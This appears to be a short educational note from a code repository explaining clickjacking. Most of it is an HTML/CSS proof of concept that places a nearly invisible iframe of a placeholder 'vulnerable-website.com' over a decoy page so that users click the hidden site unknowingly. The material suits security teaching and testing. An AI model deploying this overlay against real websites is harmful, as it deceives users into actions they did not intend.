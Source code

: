 
### Notes on Using CSS and HTML to Overlay a Decoy on a Target Website (Clickjacking)

This example demonstrates how to create a decoy overlay that sits on top of a transparent iframe, effectively setting up a **clickjacking** scenario:

```html
<head>
  <style>
    /* Style for the target iframe */
    #target_website {
      position: relative;     /* Positioned relative to parent container */
      width: 128px;           /* Small size for the hidden iframe */
      height: 128px;
      opacity: 0.00001;       /* Almost invisible to the user */
      z-index: 2;             /* Above the decoy content */
    }

    /* Style for the decoy content */
    #decoy_website {
      position: absolute;     /* Positioned absolutely over the target iframe */
      width: 300px;           /* Size of the decoy content */
      height: 400px;
      z-index: 1;             /* Below the target iframe */
    }
  </style>
</head>
<body>
  <div id="decoy_website">
    <!-- Decoy content that appears to the user -->
    ...decoy web content here...
  </div>
  <iframe id="target_website" src="https://vulnerable-website.com">
  </iframe>
</body>
```



